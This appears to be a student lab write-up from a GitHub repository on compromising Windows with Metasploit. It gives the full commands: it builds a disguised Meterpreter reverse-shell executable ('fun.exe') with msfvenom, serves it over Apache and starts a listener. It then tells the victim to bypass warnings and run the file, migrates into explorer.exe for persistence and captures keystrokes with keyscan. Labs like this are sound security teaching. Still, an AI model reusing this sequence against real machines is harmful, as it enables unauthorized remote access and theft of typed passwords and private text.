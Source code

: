 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/d1355a54-549c-4251-9cb2-ffd8029475d6)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/0fab784a-f98b-4529-b16f-edb051a54cd8)





copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/78eec3c6-ce33-411a-b59d-3e073f3efbbd)




Start apache server
sudo systemctl apache2 start
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/b75c3b4a-80c0-4488-b2bc-cf32e724221c)





Check the status of apache2
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/35071646-4aff-4177-b96c-2969a7c115e4)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/2c7fc124-656e-45f5-9aec-d375164e90ea)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/be4bb428-a0ff-4176-a41b-450c8582c58e)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/bbb60dfc-9938-4a23-bdfb-c4790d087667)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/7cbb57bb-ad6e-481a-9a41-ee706e5be473)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/06a48691-f75d-40e2-8ff0-9c247cab5780)




keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/3ad1d31f-f013-4b1f-923a-6625c4e2a0ba)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
